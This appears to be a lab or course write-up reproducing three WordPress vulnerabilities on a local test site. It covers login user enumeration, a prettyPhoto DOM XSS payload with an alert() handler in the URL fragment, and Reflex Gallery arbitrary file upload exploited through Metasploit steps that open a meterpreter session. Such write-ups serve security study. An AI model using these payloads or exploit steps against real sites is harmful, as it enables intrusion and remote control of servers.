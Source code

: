 1.(Required) User Enumeration

Summary: Different messages are shown for valid usernames with incorrect password and invalid usernames with incorrect passwords which gives an attacker hints.

Vulnerability type: User Enumeration
Tested in version: 4.2
Fixed in version: N/A

Steps to recreate:
•	Type in "admin" as username with incorrect password and it shows “ERROR: The password you entered for the username admin is incorrect”.
•	Type in "John" as username with incorrect password and it shows “ERROR: Invalid username”.

Affected source code:
https://core.trac.wordpress.org/browser/tags/4.2/src/wp-login.php



2. Multiple Plugins - jQuery prettyPhoto DOM Cross-Site Scripting (XSS)

Summary: The jQuery prettyPhoto library bundled with many plugins was found to be vulnerable to DOM Cross-Site Scripting (XSS).

Vulnerability type: cross site scripting (xss)
Tested in version: 3.1.3
Fixed in version: 3.1.5
CWE: CWE-79

Steps to recreate:
•	Add the following script to the end of the website link “#prettyPhoto[gallery]/1,<a onclick="alert(/You have been hacked/);">/”


3. Reflex Gallery <= 3.1.3 - Arbitrary File Upload

Summary:

Vulnerability type: upload
Tested in version: 3.1.3
Fixed in: 3.1.4
CVE: CVE-2015-4133
Metasploit: exploit/unix/webapp/wp_reflexgallery_file_upload
Steps to recreate:
•	Msfconsole
•	Search reflexgallery
•	Use 0
•	Options
•	set RHOST 192.168.33.10
•	set payload php/meterpreter/bind_tcp_ipv6_uuid
•	run

